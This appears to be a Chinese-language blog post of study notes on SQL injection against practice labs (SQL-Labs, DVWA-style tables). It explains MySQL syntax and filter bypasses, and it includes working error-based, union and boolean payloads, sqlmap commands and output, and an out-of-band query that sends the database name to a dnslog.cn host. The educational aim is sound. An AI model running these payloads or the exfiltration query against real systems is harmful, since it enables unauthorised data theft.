id=1 PROCEDURE ANALYSE(EXTRACTVALUE(7017,CONCAT(0x5c,0x71786b7171,(SELECT (CASE WHEN (7017=7017) THEN 1 ELSE 0 END)),0x716b6b6a71)),1)
title: SQL Injection
top: false
cover: false
toc: true
mathjax: true
date: 2021-09-03 10:38:29
password:
summary: Web安全,SQL注入知识与总结
tags:
- Web安全
- SQL注入
categories: - Web安全
SQL注入点
1.与后端有交互的点(数据库)
2.报文头部,可能有注入点
3.语句对数据库有什么影响,怎么知道是否产生影响(报错注入,数据库返回错误)
4.数据库可以存放图片路径，那么这一点也可以作为注入点
如何判断SQL存在注入点
1.error-based
譬如单引号,双引号等
https://www.cnblogs.com/wocalieshenmegui/p/5917967.html
但是如果怎么样都不显示错误时,我们很显然要选择其他方式进行注入。
2.Union-based
如果联合查询出结果，那么必然有注入点。
3.Time-based Blind
核心函数为sleep();
https://www.cnblogs.com/backlion/p/9721693.html
4.Boolen-based Blind
https://blog.csdn.net/weixin_40709439/article/details/81355856
5.Stacked
https://www.cnblogs.com/backlion/p/9721687.html
MySQL的搭建
使用PHPStudy即可，
MySQL语法
所用语句都是根据root数据库、user表进行查询的
- 查看数据库
show databases; 注意:databases的s, 以及分号;
- 查看表
show tables;- 从中查看user表中内容
select * from users;
select user_id, first_name, last_name; # 查询三列 mysql> select * from users;
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
| user_id | first_name | last_name | user | password | avatar | last_login | failed_login |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
| 1 | admin | admin | admin | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/admin.jpg | 2021-08-11 16:33:22 | 0 |
| 2 | Gordon | Brown | gordonb | e99a18c428cb38d5f260853678922e03 | /hackable/users/gordonb.jpg | 2021-08-11 16:33:22 | 0 |
| 3 | Hack | Me | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | /hackable/users/1337.jpg | 2021-08-11 16:33:22 | 0 |
| 4 | Pablo | Picasso | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | /hackable/users/pablo.jpg | 2021-08-11 16:33:22 | 0 |
| 5 | Bob | Smith | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/smithy.jpg | 2021-08-11 16:33:22 | 0 |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
5 rows in set (0.01 sec)- 注释的三种方式
注意, “– “后面有空格
#DELETE FROM SeatInformation
/*DELETE FROM SeatInformation */
-- DELETE FROM SeatInformation/**/如果以下面方式进行使用是不会影响语句的执行的
SELECT COUNT(first_name)/**/count, last_name /**/FROM users GROUP/**/ BY user_id HAVING count = 3;
所以我们可以想一下如果以下面的方式呢？如果可以的话完全可以绕过一些过滤，但是很可惜并不可以。尽管不可以，但是这种思考的过程却非常的重要。
SELECT COUNT(first_name)c/**/ount, last_name FROM users GR/**/OUP BY user_id HAVING count = 3;- Where 条件语句
运算符 描述
= 等于
<> 不等于。注释：在 SQL 的一些版本中，该操作符可被写成 !=
> 大于
< 小于
>= 大于等于
<= 小于等于
BETWEEN 在某个范围内
LIKE 搜索某种模式
IN 指定针对某个列的多个可能值熟练运用运算符，我们便可以进行一些绕过，譬如过滤了=，我们便可以使用以下方式来代替
where id = 2
where id like 2
where id <3 and id >1
where id between 2 and 2
where id like 2
where id in (2)此外MySQL是可以进行字符串的比较的譬如:
SELECT * FROM users WHERE last_name > 'admin';
2 Gordon Brown gordonb e99a18c428cb38d5f260853678922e03 /hackable/users/gordonb.jpg 2021-08-11 16:33:22 0
3 Hack Me 1337 8d3533d75ae2c3966d7e0d4fcc69216b /hackable/users/1337.jpg 2021-08-11 16:33:22 0
4 Pablo Picasso pablo 0d107d09f5bbe40cade3de5c71e9e9b7 /hackable/users/pablo.jpg 2021-08-11 16:33:22 0
5 Bob Smith smithy 5f4dcc3b5aa765d61d8327deb882cf99 /hackable/users/smithy.jpg 2021-08-11 16:33:22 0- And，Or
MySQL语句中And，Or与其他编程语言用法相同。
同时AND 与 &&相同，Or与 ||相同，而&为位AND（Bitwise AND）。
骚操作:
SELECT * FROM users WHERE user_id = 1 and (1=1) = 1;
SELECT * FROM users WHERE user_id = 3/3 and (1=1) = 1;
SELECT * FROM users WHERE 2/2 = (3=3);
SELECT * FROM users WHERE user_id = 4/2 = (2=1);(这条语句似乎等于user_id != 2，原理我也没有查到，尝试了一下这里！=中的=无法通过上述=
的替代方法来进行替代)- Like模糊查询
SELECT * FROM users WHERE user_id > 1 and first_name like "%ck";
SELECT * FROM users WHERE user_id > 1 and first_name like "%%"; -- 相当于 1 = 1
SELECT * FROM users WHERE user_id > 1 and first_name like "_a%"; -- '_'占位符,表示第二个字母为a,第一个字母无所谓- Order by
目的为排序
SELECT * FROM users WHERE user_id > 1 ORDER BY first_name; -- 表明以first_name 为标准进行排序
SELECT * FROM users WHERE user_id > 1 ORDER BY 1; -- 表明以第1列为标准进行排序(列号从1开始)
SELECT * FROM users WHERE user_id > 1 ORDER BY 1 LIMIT a,b;-- LIMIT的使用方法为: 从第a(从0开始)行开始展示b行
SELECT * FROM users WHERE user_id > 1 ORDER BY 1 LIMIT b; -- 从0开始展示b行
- Aliases(重命名)
SELECT user_id as 'id' FROM users;
SELECT user_id 'id' FROM users; -- as可以省略
id
1
2
3
4
5SELECT(SELECT first_name FROM users WHERE user_id = 1)s;
s
admin对于上面的符合语句我的理解为，里面的一层SQL语句获得了字段名为first_name,值为admin的查询结果（已经相当于常量与1类似），而外面的一层实际上是为了将字段名进行重命名，与select 1 as a类似, 除此以外没有其他作用。

- 函数
(1) min()，max()
SELECT MIN(user_id) FROM users; -- 查询user_id最小的值
SELECT MAX(user_id) FROM users; -- 查询user_id最大的值
(2) count(),avg(),sum()
(3) concat()
SELECT CONCAT("SQL ", "Runoob ", "Gooogle ", "Facebook") AS ConcatenatedString;ConcatenatedString
SQL Runoob Gooogle Facebook(4) 报错注入语句分析
SELECT * FROM users WHERE user_id = 1 and updatexml(1,CONCAT(0x7e,DATABASE(),0x7e,user(),0x7e,@@datadir),1);
SELECT CONCAT(0x7e,DATABASE(),0x7e,user(),0x7e,@@datadir)s;s
~root~root@localhost~C:\phpstudy_pro\Extensions\MySQL5.7.26\data\0x7e即~，DataBase（）即当前使用数据库名，user（）返回当前用户，@@datadir即存放数据的地址
UpdateXML(xml_target, xpath_expr, new_xml)函数的含义
此函数用新的 XML 片段 new_xml 替换给定 XML 标记 xml_target 片段的单个部分，然后返回更改后的 XML。被替换的 xml_target 部分与用户提供的 XPath 表达式 xpath_expr 匹配。
- Union
注意: Union两边查询语句所得结果的column必须相同
SELECT * FROM users union SELECT 1,2,3,4,5,6,7,8 FROM users;
SELECT * FROM users union SELECT 1,2,3,4,5,DATABASE(),USER(),VERSION() FROM users; -- 后面的语句中数字完全可以用函数替代。
user_id first_name last_name user password avatar last_login failed_login
1 admin admin admin 5f4dcc3b5aa765d61d8327deb882cf99 /hackable/users/admin.jpg 2021-08-11 16:33:22 0
2 Gordon Brown gordonb e99a18c428cb38d5f260853678922e03 /hackable/users/gordonb.jpg 2021-08-11 16:33:22 0
3 Hack Me 1337 8d3533d75ae2c3966d7e0d4fcc69216b /hackable/users/1337.jpg 2021-08-11 16:33:22 0
4 Pablo Picasso pablo 0d107d09f5bbe40cade3de5c71e9e9b7 /hackable/users/pablo.jpg 2021-08-11 16:33:22 0
5 Bob Smith smithy 5f4dcc3b5aa765d61d8327deb882cf99 /hackable/users/smithy.jpg 2021-08-11 16:33:22 0
1 2 3 4 5 6 7 8我们可以从上面的结果中发现union后面语句查询结果只有一行，但是下面语句却有5行，即原本表中的行数。

这是因为union是有distinct的，即去重。如果想要全部展示可以再union后面加all
- Group by
下面第一条语句的意思为，按照user_id进行分组。
第二条语句的意思为，按照id分组，每一组中的firstname值各有几个
SELECT * FROM users GROUP BY user_id;
SELECT COUNT(first_name)count, last_name FROM users GROUP BY user_id;如果只想要看count值为3的结果怎么办呢？之前我们一般使用where但是在这里我们需要使用having即，
SELECT COUNT(first_name)count, last_name FROM users GROUP BY user_id HAVING count = 3;- Joins
(1) INNER JOIN即取交集
SELECT * FROM users INNER JOIN guestbook ON users.user_id = guestbook.comment_id; 取user_id与comment_id相同的数据
(2) Left JOIN
LEFT JOIN 关键字从左表（table1）返回所有的行，即使右表（table2）中没有匹配。如果右表中没有匹配，则结果为 NULL。

如下:

(3) Right JOIN
RIGHT JOIN 关键字从右表（table2）返回所有的行，即使左表（table1）中没有匹配。如果左表中没有匹配，则结果为 NULL。
(4) FULL JOIN
MYSQL不支持
- ANY,ALL
ALL，user_id 大于所有后面语句的查询结果
ANY，user_id 大于任意一个后面语句的查询结果
SELECT * FROM users WHERE user_id > ALL (SELECT user_id FROM users)
SELECT * FROM users WHERE user_id > ANY (SELECT user_id FROM users)- 数据库操作
创建数据库
CREATE DATABASE `violet` CHARACTER SET 'utf8' COLLATE 'utf8_bin';删除一个数据库
DROP DATABASE violet;备份数据库
BACKUP DATABASE root TO DISK = 'path';创建表
CREATE TABLE `root`.`Untitled` (
`id` int(10) NOT NULL AUTO_INCREMENT, -- 列名id，int类型，不为空，自动增长
`name` varchar(255) NOT NULL,
`pass` varchar(255) NULL,
PRIMARY KEY (`id`)
);修改表
(1)添加列
ALTER TABLE `root`.`users`
ADD COLUMN `violet` varchar(255) NULL AFTER `failed_login`;(2)删除
ALTER TABLE `root`.`users`
Drop COLUMN `violet` varchar(255) NULL AFTER `failed_login`;(3)修改类型
ALTER TABLE `root`.`users`
alter COLUMN `violet` int;SQLMAP的使用
我们使用SQL-LABS进行学习。
error-based
首先如何确认有SQL注入呢?
根据上面所学，我们可以使用’”等，来进行报错，进而判断有无注入点。

我们再本机环境中测试，发现错误与靶场所爆出的错误基本相同，

而查看源文件的SQL语句为，
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";SELECT * FROM users WHERE user_id = '$id' -- ';我们再试一下”呢，然而没有用。
如果想学手工注入，则可以看sqlmap中xml语句，进行学习。
获取数据库信息
- 在以下的界面中，我们可以进行选择获得的信息，譬如我选择了获得当前数据库名。

命令行中语句为
sqlmap -u 'http://ec741729-e1f3-4c04-96e6-f8823694221f.node4.buuoj.cn/Less-1/?id=1' --skip-static --technique=E --current-db–technique=E为报错注入，–current-db，为获得当前的数据库。
- 如果获得当前的用户名呢？
很明显–current-user。
1' AND (SELECT 7663 FROM(SELECT COUNT(*),CONCAT(0x716b766a71,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x716a7a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vNjX18:46:41] [INFO] fetching current user
[18:46:41] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'- 此外还能获得其他很多信息，譬如：表，列，等
那么如果只是查询一个特定表，特定库呢？也很简单
库: -D 库名
表: -T 表名
列: -C 列名Union查询
如果不报错时，报错查询就无法使用。
那么就让我们看一下sqlmap的union注入的思路
首先使用判断其闭合的符号为什么。
19:56:54] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
=>1
=>1) ORDER BY 1-- -
=>1) ORDER BY 5583-- -
=>1 ORDER BY 1-- -
=>1 ORDER BY 1115-- -
=>1 ORDER BY 1-- -
=>1 ORDER BY 3952-- -
=>1') ORDER BY 1-- -然后判断有几列
[INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
=>1' ORDER BY 10-- -
=>1' ORDER BY 6-- -
=>1' ORDER BY 4-- -
=>1' ORDER BY 3-- -之后判断是否有注入点
19:56:56] [INFO] target URL appears to have 3 columns in query
=>1' UNION ALL SELECT NULL,CONCAT(0x716b766a71,0x62514944434e754576417366414f73726d647772597649646d5571494a7a6c616a71504b76684a6c,0x716a7a7871),NULL-- -
=>1' UNION ALL SELECT NULL,NULL,CONCAT(0x716b766a71,0x6e7a49536f61696a6c41486747774d79596c514650434e43665a464e765a4148764b736672435065,0x716a7a7871)-- -
=>1' UNION ALL SELECT CONCAT(0x716b766a71,0x6b546266597147457879727172504b7a7659596e717a48695043684963435a744465637776654c76,0x716a7a7871),NULL,NULL-- -
=>1' UNION ALL SELECT NULL,CONCAT(0x716b766a71,0x4b6b4573774577746151,0x716a7a7871),NULL-- -
=>1' UNION ALL SELECT NULL,NULL,CONCAT(0x716b766a71,0x74675064785a587a5658,0x716a7a7871)-- -
=>1' UNION ALL SELECT CONCAT(0x716b766a71,0x5758584e6e73634a6a52,0x716a7a7871),NULL,NULL-- -
=>-3620' UNION ALL SELECT NULL,CONCAT(0x716b766a71,0x45626e76634a704b5a4a48486846777357454c665072487a6662676c4c436e694e4b55477545534c,0x716a7a7871),NULL-- -再然后判断是否为DBA
-7861' UNION ALL SELECT NULL,
CONCAT(0x716b766a71,
(CASE WHEN -- WHEN a THEN b ELSE c END 相当于 if a {b;}
( -- else c;
(SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)
=0x59
)
THEN 1
ELSE 0
END),
0x716a7a7871),NULL-- -其实操作与报错查询也基本一样。
boolen
靶场为SQL-Labs less11
首先此关卡为POST方式，所以指令方面与上面有所不同
--method post --data "passwd=-111'&submit=Submit&uname=111" -p uname -tamper=print-.py -technique B–method为post方式请求。–data 为数据包内容，-p为注入的目标 后面的与之前相同。
Time
可以再request页面打开写有请求头的文件来进行注入，注入点标记为*

注意sqlmap的请求头部中USER-Agent，一般都会带着sqlmap的特定信息，所以我们需要进行修改。
moblie就代表着将报文伪装成手机端。 random-agent一般都要携带。

other
OOB
上面所学的都为In band的注入。既然有In Band 那么便有out of band,” OOB “

第三方使用的就是dnslog.cn
我们再使用时，可能也会使用到如下语句
SELECT LOAD_FILE('a')此语句的作用就为打开文件，使用的协议为unc（远程访问一个文件）
在Windows中运行中可以使用\加域名之类的，来进行远程访问
那么如何注入使用呢？很简单看下面
SELECT load_file(CONCAT('\\\\',(SELECT DATABASE()),'.8er59e.dnslog.cn\\1.txt'))最后结果会显示在dnslog上，为 数据库名.域名。之所以使用四个反斜线是为了转义。
\\root.8er59e.dnslog.cn\1.txtinformation.schema
系统数据库
存储数据库的基本信息，譬如各个数据库的表，用户等等等。 在注入语句中经常会出现这个库

1' AND (SELECT 9014 FROM(SELECT COUNT(*),CONCAT(0x716b766a71,(SELECT MID((IFNULL(CAST(grantee AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT 113,1),0x716a7a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- PNUb
手工注入
报错注入
获得注入点
报错注入payload:
id=1' AND (SELECT 1710 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT (ELT(1710=1710,1))),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- TBlX分解:
SELECT
1710
FROM
(
SELECT
COUNT(*),
CONCAT(
0x716a6a7171,(
SELECT
(
ELT( 1710 = 1710, 1 ))), -- ELT(a,b,c,d, ....) 为a=1取b,为2取c,为3取d依次类推
0x716b626a71, -- 其实就是Ascii码
FLOOR( RAND( 0 )* 2 )) x -- 该函数返回X的最大整数值，但不能大于X; MySQL Rand() 函数可以被调用，以产生一个在 0 和 1 之间的随机数：
-- 如果在一条查询语句中rand內的值相同，那么rand出值也相同。
FROM
INFORMATION_SCHEMA.PLUGINS
GROUP BY
x -- x为concat得出的结果，结果为qjjqq1qkbjq0 很明显你不能这样进行分组，直接报错了。
) a -- TBlX获得当前用户
我们知道了有注入点，接下来就是获得数据库的相关信息了，这里一当前用户为例
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,54)),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe分解
SELECT
1343
FROM
(
SELECT
COUNT(*),
CONCAT(
0x716a6a7171,(
MID -- SELECT MID(ColumnName, Start [, Length])
-- 从start开始(初始值为1)，从columnName中截取长度为Length的字符串。
(
( IFNULL -- IFNULL它接受两个参数，如果不是NULL，则返回第一个参数。 否则，IFNULL函数返回第二个参数。
( CAST( CURRENT_USER () AS NCHAR ),
0x20 )), -- CAST()函数将任何类型的值转换为具有指定类型的值。目标类型可以是以下类型之一：BINARY，
1, 54 ) -- CHAR，DATE，DATETIME，TIME，DECIMAL，SIGNED，UNSIGNE
),
,
0x716b626a71,
FLOOR( RAND( 0 )* 2 )) x
FROM
INFORMATION_SCHEMA.PLUGINS
GROUP BY
x
) a
) -- uwIe经过分解我们知道了上面语句工作原理，通过Current_user()来进行查询现在的用户，并通过报错的方式来进行显示。
查询表payload为
1' AND (SELECT 9086 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST(table_schema AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x637466747261696e696e67,0x696e666f726d6174696f6e5f736368656d61,0x6d7973716c,0x706572666f726d616e63655f736368656d61,0x7365637572697479,0x74657374) LIMIT 161,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DOMI根据上面两个语句，我们完全可以自己写为，payload为,若要查看其他包只需要修改concat中LIMITa,1中a。
至于查列等，完全一个思路。
1' AND (SELECT 1343 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT MID((IFNULL(CAST((table_schema) AS NCHAR),0x20)),1,54) FROM INFORMATION_SCHEMA.TABLES LIMIT 0,1),0x716b626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uwIe结果为
